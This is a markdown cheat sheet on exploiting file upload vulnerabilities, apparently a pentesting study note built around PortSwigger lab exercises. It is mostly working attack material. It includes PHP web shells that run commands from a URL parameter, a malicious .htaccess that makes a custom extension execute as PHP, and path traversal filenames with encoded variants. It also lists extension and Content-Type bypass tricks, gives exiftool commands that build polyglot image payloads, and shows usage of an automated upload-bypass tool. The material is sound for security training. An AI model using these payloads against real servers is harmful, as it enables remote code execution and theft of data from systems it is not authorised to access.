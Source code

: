# Overview

> **File upload vulnerabilities** occur when a web server allows users to upload files to its filesystem without adequately validating elements like file name, type, contents, or size. Without proper restrictions, even a basic image upload function can be exploited to upload potentially harmful files, such as server-side script files enabling remote code execution. Sometimes, simply uploading a file can cause damage; other times, a follow-up HTTP request for the file triggers server execution.  
> [File Upload - PortSwigger](https://portswigger.net/web-security/file-upload)

## Content-Type Restriction Bypass

When uploading a PHP file, modify the `Content-Type` as follows:

- **Original**: `Content-Type: application/x-php`
- **Bypass Options**:
  - `Content-Type: image/jpeg`
  - `Content-Type: image/png`

## Path Traversal

Uploading a PHP file to a different directory can exploit lesser controls in unintended directories:

- **Original**: 
```
Content-Disposition: form-data; name="avatar"; filename="secrets.php"
```
- **Path Traversal Example**:
```
Content-Disposition: form-data; name="avatar"; filename="../secrets.php"
```
- **Encoded Variants of `../`**:
```
..%2f
%2e%2e%2f
%252e%252e%252f
..%c0%af
..%ef%bc%8f
```
- **Accessing the File**:
```
GET /files/avatars/../secrets.php
```

## Overriding the Server Configuration

Many servers allow custom directory configurations to override global settings. For instance, **Apache servers** load directory-specific configurations from a `.htaccess` file.

1. **Upload a Malicious `.htaccess`**:
```
Content-Disposition: form-data; name="avatar"; filename=".htaccess"
Content-Type: text/plain

AddType application/x-httpd-php .l33t
```

2. **Upload PHP File with Custom Extension**:
```
Content-Disposition: form-data; name="avatar"; filename="secrets.l33t"
Content-Type: application/x-php

<?php system($_GET['cmd']); ?>
```

## Web Shell Upload Bypass Techniques

### According to OWASP, Penetration Testers Can Use the Following Techniques to Bypass Protections:

- **URL Encoding** (or double encoding) for dots and slashes. If server-side decoding differs from validation, this can allow malicious uploads, such as `exploit%2Ephp`.
- **Multibyte Unicode Characters**: Convert sequences (e.g., `xC0 x2E`, `xC4 xAE`, or `xC0 xAE`) to `x2E` after UTF-8 parsing to bypass checks.
- **Content-Type Modification** in the header (using Burp, ZAP, etc.).
- **Server Executable Extensions**: `.php5`, `.shtml`, `.asa`, `.cert`.
- **Capitalization Changes**: `.aSp`, `.PHp3`.
- **Trailing Spaces/Dots**: `.asp..`, `.asp .`.
- **Semicolon with Extension**: `.asp;.jpg` (_works on IIS 6 or earlier_).
- **Double Extensions**: `file.php.jpg`.
- **Null Character**: `file.asp%00.jpg`.
- **Forbidden Extension with Permissible Variant**: `file.asp:.jpg` or `file.asp::$data`.
- **Combinations** of the above techniques.

## Remote Code Execution via Polyglot Web Shell Upload

To upload a PHP file when the server performs content verification (e.g., confirming it’s an image), disguise the PHP file as an image file.

1. **Add Image Header in PHP File**:
   - Prefix the file with `GIF89a;` (or add in Burp request):
   - **Request Example**:
 ```
 Content-Disposition: form-data; name="avatar"; filename="secrets.php"
 Content-Type: application/x-php
 ```

   - **GIF Header in PHP Code**:
```php
GIF89a;<?php echo file_get_contents('/home/carlos/secret'); ?>
```

2. **OR**:
```php
GIF89a;<?php system($_GET['cmd']); ?>
```

3. **Generate Polyglot Payload with `exiftool`**:

```bash
# Example 1
exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" <YOUR-INPUT-IMAGE>.jpg -o polyglot.php

# Example 2
exiftool -Comment="<?php echo 'START ' . system($_GET['cmd']); . ' END'; ?>" $input.jpg -o polyglot.php
```

## upload_bypass

> **File upload restrictions bypass tool** that leverages various bug bounty techniques. Ensure the tool runs with all assets.

### Installation and Usage

```bash
git clone https://github.com/sAjibuu/upload_bypass.git
cd upload_bypass/
pip3 install -r requirements.txt

python3 ext_bypass.py -u $url -e $extension-file -a $allowed-extension -s $success-msg --location $path-of-uploaded-file
```